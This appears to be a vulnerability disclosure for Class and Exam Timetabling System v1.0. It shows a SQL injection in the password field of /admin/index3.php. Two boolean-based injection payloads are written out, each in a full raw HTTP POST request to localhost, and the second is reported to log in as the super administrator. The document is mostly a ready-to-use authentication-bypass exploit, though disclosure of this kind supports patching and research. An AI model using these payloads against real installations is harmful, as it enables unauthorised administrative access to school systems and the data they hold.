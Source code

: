 # Class and Exam Timetabling System v1.0 has SQL injection

BUG_Author:muhan

Website source address: https://www.sourcecodester.com/php/11332/class-and-exam-timetabling.html

Vulnerability File: /admin/index3.php

POST parameter 'password' exists SQL injection vulnerability

Payload1: username=ADMIN&password=a%27+OR+NOT+666%3D666%23&go=Log+In

```
POST /admin/index3.php HTTP/1.1
Host: localhost
Content-Length: 58
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/admin/index3.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

username=ADMIN&password=a%27+OR+NOT+666%3D666%23&go=Log+In
```

Login error

![image](https://github.com/anquanclub/picture/blob/main/fail.png)

Payload2: username=ADMIN&password=a%27+OR+NOT+666%3D667%23&go=Log+In

```
POST /admin/index3.php HTTP/1.1
Host: localhost
Content-Length: 58
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/admin/index3.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

username=ADMIN&password=a%27+OR+NOT+666%3D667%23&go=Log+In
```

The super account is successfully logged in.

![image](https://github.com/anquanclub/picture/blob/main/success.png)
